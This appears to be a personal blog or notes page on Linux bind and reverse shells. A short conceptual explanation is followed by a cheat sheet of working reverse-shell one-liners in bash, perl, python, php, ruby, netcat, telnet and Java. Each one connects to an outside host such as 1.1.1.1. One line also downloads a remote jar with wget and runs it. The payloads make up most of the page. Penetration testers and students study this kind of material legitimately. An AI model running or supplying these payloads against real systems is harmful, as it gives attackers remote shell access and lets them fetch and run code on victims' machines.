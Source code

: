 ```yaml
---
title: Linux - reverse shell & Bind shell
date: 2020-11-01 11:11:11 -0400
categories: [31Linux, Sysadmin]
tags: [Linux, Sysadmin]
math: true
image:
---
```


[toc]

---

# Bind shell

Bind shell
- attacker's machine acts as a client
- victim's machine acts as a server opening up a communication port on the victim and waiting for the client to connect to it
- and then attacker issue commands that will be remotely executed on the victim's machine.

> This would be only possible if the victim's machine has a public IP and is accessible over the internet (disregarding all firewall etc. for the sake of brevity).


what if the victim's machine is NATed and hence not directly reachable ?
- attacker's machine is reachable.
- So attacker open a server and let the victim connect to him.
- This is what a reverse shell is.

---

# reverse shell

Reverse Shell
- attacker's machine (has a public IP and is reachable over the internet) acts as a server.
- It opens a communication channel on a port and waits for incoming connections.
- Victim's machine acts as a client and initiates a connection to the attacker's listening server.

Open two tabs in your terminal.
1. open TCP port 8080 and wait for a connection:
2. `nc localhost -lp 8080`
3. Open an interactive shell, and redirect the IO streams to a TCP socket:
4. `bash -i >& /dev/tcp/localhost/8080 0>&1`


```bash

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1;

# bash -i "If the -i option is present, the shell is interactive."

# >& "redirects both, stdout and stderr to the specified target."

# (argument for >&) /dev/tcp/localhost/8080 is a TCP client connection to localhost:8080.

# 0>&1 redirect file descriptor 0 (stdin) to fd 1 (stdout), hence the opened TCP socket is used to read input.

```

perl shell

```perl
perl -e 'use Socket;$i="1.1.1.1";$p=10086;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};';
```

python shell

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.1.1.1",10086));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);';
```

php shell

```php
php -r '$sock=fsockopen("1.1.1.1",10086);exec("/bin/sh -i <&3 >&3 2>&3");';
```

ruby shell

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("1.1.1.1","10086");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end';
```

nc shell

```bash
nc -c /bin/sh 1.1.1.1 10086;
```

telnet shell

```
telnet 1.1.1.1 10086 | /bin/bash | telnet 1.1.1.1 10087; # Remember to listen on your machine also on port 4445/tcp

127.0.0.1; mknod test p ; telnet 1.1.1.1 10086 0<test | /bin/bash 1>test;
```

java jar shell

```java
wget http://1.1.1.1:9999/revs.jar -O /tmp/revs1.jar;

java -jar /tmp/revs1.jar;

import java.io.IOException;
public class ReverseShell {
    public static void main(String[] args) throws IOException, InterruptedException {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/10086;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```


---

ref
- [example](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)
- [2](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

.

